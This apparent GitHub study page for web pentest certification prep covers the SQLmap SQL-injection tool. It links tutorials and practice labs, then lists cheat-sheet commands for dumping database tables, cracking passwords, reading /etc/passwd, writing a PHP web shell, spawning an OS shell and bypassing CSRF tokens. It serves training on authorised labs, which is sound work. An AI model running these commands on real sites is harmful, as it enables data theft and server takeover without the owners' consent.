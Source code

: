 ### Learn about SQLmap
- [SQLmap tutorial for begineers](https://tryhackme.com/room/sqlmap)
- [SQLmap video tutorial](https://www.youtube.com/watch?v=pF7uz_ptuFc&ab_channel=ElPing%C3%BCinodeMario)
- [SQLmap extended video tutorial](https://www.youtube.com/watch?v=2y70Yj0oSxw&ab_channel=SEGURIDADCERO)
### Labs for practice
- [HTB Goodgames](https://app.hackthebox.com/machines/446)
- [HTB Validation](https://app.hackthebox.com/machines/382)

### Cheat Sheet

| **Command**                                                  | **Description**                                             |
| ------------------------------------------------------------ | ----------------------------------------------------------- |
| `sqlmap -h`                                                  | View the basic help menu                                    |
| `sqlmap -hh`                                                 | View the advanced help menu                                 |
| `sqlmap -u "http://www.example.com/vuln.php?id=1" --batch`   | Run `SQLMap` without asking for user input                  |
| `sqlmap 'http://www.example.com/' --data 'uid=1&name=test'`  | `SQLMap` with POST request                                  |
| `sqlmap 'http://www.example.com/' --data 'uid=1*&name=test'` | POST request specifying an injection point with an asterisk |
| `sqlmap -r req.txt`                                          | Passing an HTTP request file to `SQLMap`                    |
| `sqlmap ... --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'` | Specifying a cookie header                                  |
| `sqlmap -u www.target.com --data='id=1' --method PUT`        | Specifying a PUT request                                    |
| `sqlmap -u "http://www.target.com/vuln.php?id=1" --batch -t /tmp/traffic.txt` | Store traffic to an output file                             |
| `sqlmap -u "http://www.target.com/vuln.php?id=1" -v 6 --batch` | Specify verbosity level                                     |
| `sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"` | Specifying a prefix or suffix                               |
| `sqlmap -u www.example.com/?id=1 -v 3 --level=5`             | Specifying the level and risk                               |
| `sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba` | Basic DB enumeration                                        |
| `sqlmap -u "http://www.example.com/?id=1" --tables -D testdb` | Table enumeration                                           |
| `sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname` | Table/row enumeration                                       |
| `sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"` | Conditional enumeration                                     |
| `sqlmap -u "http://www.example.com/?id=1" --schema`          | Database schema enumeration                                 |
| `sqlmap -u "http://www.example.com/?id=1" --search -T user`  | Searching for data                                          |
| `sqlmap -u "http://www.example.com/?id=1" --passwords --batch` | Password enumeration and cracking                           |
| `sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"` | Anti-CSRF token bypass                                      |
| `sqlmap --list-tampers`                                      | List all tamper scripts                                     |
| `sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba` | Check for DBA privileges                                    |
| `sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"` | Reading a local file                                        |
| `sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"` | Writing a file                                              |
| `sqlmap -u "http://www.example.com/?id=1" --os-shell`        | Spawning an OS shell                                        |

### Usefull Commands for eWPTX!
```bash
#Seleccionar un target
sqlmap -u "http://www.target.com/path/file.htm?variable=1"

#Cargar una petición desde un archivo
sqlmap -r request

#Utilizar User-Agent random
sqlmap -u "http://www.target.com/path/file.htm?variable=1" --random-agent

#Establecer el nivel de riesgo
sqlmap -u "http://www.target.com/path/file.htm?variable=1" --risk [0-3]

#Establecer el nivel de intensidad del ataque
sqlmap -u "http://www.target.com/path/file.htm?variable=1" --level [0-5]

#Controlar la petición con un proxy por ej BurpSuite
sqlmap --proxy "http://127.0.0.1:8080"

#Establecer una cookie
sqlmap --cookie "example=COOKIE"

#Atacar un parametro especifico
sqlmap -p "parametro" 

#Establecer un token CSRF
sqlmap --csrf-token "token"
sqlmap --csrf-url "url"

#Especificar el gestor de base de datos
sqlmap --dbms=gestor

#Especificar una tabla 
sqpmal -D "table"

#Dumpear toda la DB
sqlmap --dump
```

### SQLMap Payloads in order to use on a real scenario

1. Basic Enumeration
```bash
sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba
```
2. Table Enumeration
```bash
sqlmap -u "http://www.example.com/?id=1" --tables -D [DATABASE_NAME]
```
After identifying the name of the table of interest, you can retrieve its content using the --dump option and specifying the name of the table with -T users, like this:
```bash
sqlmap -u "http://www.example.com/?id=1" --dump -T [TABLE_NAME] -D [DATABASE_NAME]
```
